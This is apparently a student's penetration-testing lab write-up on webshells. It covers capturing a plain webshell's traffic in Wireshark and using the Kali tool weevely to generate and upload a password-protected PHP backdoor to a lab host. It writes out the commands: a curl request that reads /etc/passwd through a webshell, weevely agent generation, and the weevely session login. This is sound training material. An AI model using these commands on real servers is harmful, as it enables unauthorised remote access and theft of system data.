

# Lab 8.1 - Weevely💡

Webshells like simple-backdoor.php are effective but are not terribly stealthy. Basic IDS/IPS systems will be able to detect "shell-like" behavior by seeing content that looks like commands, prompts and sensitive files like /etc/passwd.

Wireshark Capture of traditional webshellTarget pippin with a traditional webshell (one without encryption or obfuscation). Capture a dump of /etc/passwd using Wireshark on your wg0 interface.

## Deliverable 1. Provide a screenshot that shows the relevant tcp stream similar to the one below. Create a capture filter on port 80 when you do so.

`curl 'http://10.0.5.25/upload/navarro.php?cmd=cat+/etc/passwd'`

## Deliverable 2. Investigate weevely (a tool in kali). Create a php agent that is uniquely named, upload the agent to pippin and carry on a session similar to the one shown in the screenshot. Provide a screenshot of your session

To generate an agent I used the following link https://null-byte.wonderhowto.com/forum/hiob-generate-web-backdoors-php-using-weevely-kali-linux-0158905/

according to null-byte.wonderhowto.com. weevely generate [password] [path for agent to be saved]

First I used the following command to generate weevely:

`weevely generate LOL /home/champuser/Desktop/week8/door3.php`

And then uploaded the files inside the ftp server:

Next I used the following command to login:

`weevely http://10.0.5.25/upload/door3.php LOL`

